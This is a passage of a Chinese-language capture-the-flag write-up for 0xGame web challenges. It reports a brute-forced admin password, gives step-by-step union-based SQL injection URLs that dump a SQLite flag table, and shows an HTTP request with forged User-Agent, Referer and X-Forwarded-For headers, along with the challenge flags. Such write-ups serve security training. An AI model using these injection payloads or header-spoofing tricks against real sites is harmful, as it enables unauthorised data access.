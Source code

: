 
爆破发现，密码为 admin123。

![image-20241011155022847](C:\Users\13150\AppData\Roaming\Typora\typora-user-images\image-20241011155022847.png)

![image-20241011155225807](C:\Users\13150\AppData\Roaming\Typora\typora-user-images\image-20241011155225807.png)

获得 flag：`0xGame{It_Is_Easy_Right?}`

## ez_sql

输入 `http://47.76.152.109:60080/?id=1 order by 5#` 不报错，但输入 `http://47.76.152.109:60080/?id=1 order by 6#` 报错，说明该表格有五列。

接下来就可以使用 union 了，先将前面的语句出错，就可以查自定义的语句了，`http://47.76.152.109:60080/?id=1 and 1=0 union select 1, 2, 3, 4, 5 from users`，测试发现可以回显。

![image-20241011162141695](C:\Users\13150\AppData\Roaming\Typora\typora-user-images\image-20241011162141695.png)

先跑表 `http://47.76.152.109:60080/?id=1 and 1=0 union select 1, 2, 3, 4, group_concat(name) from sqlite_master`，获取表名`flag,users`。

![image-20241011162207161](C:\Users\13150\AppData\Roaming\Typora\typora-user-images\image-20241011162207161.png)

再跑列`http://47.76.152.109:60080/?id=1 and 1=0 union select 1, 2, 3, 4, group_concat(sql) from sqlite_master where name = 'flag'` 得到 `hacker`，被过滤了，呜呜。

不加就是了，`http://47.76.152.109:60080/?id=1 and 1=0 union select 1, 2, 3, 4, group_concat(sql) from sqlite_master`，得到所有列，其中 flag 表只有 flag 列。

![image-20241011162239491](C:\Users\13150\AppData\Roaming\Typora\typora-user-images\image-20241011162239491.png)

继续跑值 `http://47.76.152.109:60080/?id=1 and 1=0 union select 1, 2, 3, 4, group_concat(flag) from flag`

![image-20241011162321074](C:\Users\13150\AppData\Roaming\Typora\typora-user-images\image-20241011162321074.png)

获得 flag：`0xGame{Do_not_Use_SqlMap!_Try_it_By_Your_Self}`，哈哈，我没用 SqlMap。

## hello_http

用 bp 抓包给重放器，改一下 http，他有几个要求，每完成一项奖励一点 flag：

1. 用 x1cBrowser 浏览器访问。User-Agent 改为 x1cBrowser
2. 提交 hello=world。GET 后写`/?hello=world`
3. Post 提交 web=security。Get 改为 POST，加一句`Content-Type: application/x-www-form-urlencoded` 后输入 web=security
4. 从 `http://localhost:8080/` 访问。写 `Referer: http://localhost:8080/`
5. 从 `127.0.0.1` 访问。写`X-Forwarded-For: 127.0.0.1`

最终 http 为：

```http
POST /?hello=world HTTP/1.1
Host: 8.130.84.100:50002
User-Agent: x1cBrowser
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Cookie:flag=secret
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Content-Length: 12
Content-Type: application/x-www-form-urlencoded
Referer: http://localhost:8080/
X-Forwarded-For: 127.0.0.1

```
